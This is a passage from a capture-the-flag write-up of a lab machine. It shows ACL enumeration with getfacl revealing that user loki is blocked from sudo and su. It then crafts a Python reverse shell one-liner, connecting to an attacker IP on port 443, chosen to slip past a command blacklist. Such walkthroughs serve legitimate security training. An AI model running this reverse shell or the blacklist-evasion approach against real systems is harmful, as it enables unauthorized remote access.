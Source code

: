 Most of these seem reasonable, but one standout, that was new to us at least, was the `setfacl` command.

After doing some research the commands `getfacl` and `setfacl` have to do with Access Control List (ACL) settings on Linux. Because the application specifically wanted to block this command we should look for any files with ACLs applied:
```
loki@Mischief: getfacl -R -s -p / | sed -n 's/^# file: //p'
...
//usr/bin/sudo
//bin/su
//var/log/journal
```

Once we have a list of files, we can use getfacls to look at the specifics of the ACLs and get a better insight into whats applied to the files:
```
loki@Mischief:~$ getfacl /usr/bin/sudo
getfacl: Removing leading '/' from absolute path names
# file: usr/bin/sudo
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x

loki@Mischief:~$ getfacl /usr/bin/su
getfacl: Removing leading '/' from absolute path names
# file: usr/bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

Looks like our loki user has been specifically blocked from running `sudo` and `su`, but all other users are able to execute it.

There are no other users in the `/etc/passwd` file, but from previous experience we have been able to get reverse shells as accounts such as `mysql` and `www-data` and we have a website that can already run commands as `www-data`. How convenient.

With the knowledge we have of the blacklist we need to craft a reverse shell payload. We can use the loki ssh session to test it out and fix the payload till we get a working one. We know that the black list does not block python so we look up our reverse shell cheatsheet and grab the python sample, updating the ip address and port with our own.
```
loki@Mischief:~$ which python
/usr/bin/python
loki@Mischief:~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
